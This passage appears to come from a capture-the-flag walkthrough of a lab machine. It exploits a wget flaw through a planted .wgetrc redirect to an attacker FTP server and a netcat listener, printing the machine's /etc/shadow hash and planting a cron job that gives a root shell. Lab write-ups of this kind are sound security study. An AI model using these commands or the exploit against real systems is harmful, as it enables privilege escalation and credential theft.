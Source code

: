 Now set up listener:

```bash
nc -lnpv 9001
```

We have to use authbind, otherwise we get a permission denied:

```bash
authbind python exploit.py

```

After a while:

2 minutes, we should get a hit on our ftp server, another 2 minutes Sending redirect to [ftp://anonymous@10.10.16.7:21/.wgetrc](ftp://anonymous@10.10.16.7/.wgetrc), then shadow file is read:

```bash
<SNIP>
sshd:*:17366:0:99999:7:::
ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::

Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [09/Sep/2025 07:18:01] "POST /archive.tar.gz HTTP/1.1" 200 -

File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) 
```

Finally, cron job is executed and we have root:

![image.png]({{ site.baseurl }}/assets/kotarak/image%2016.png)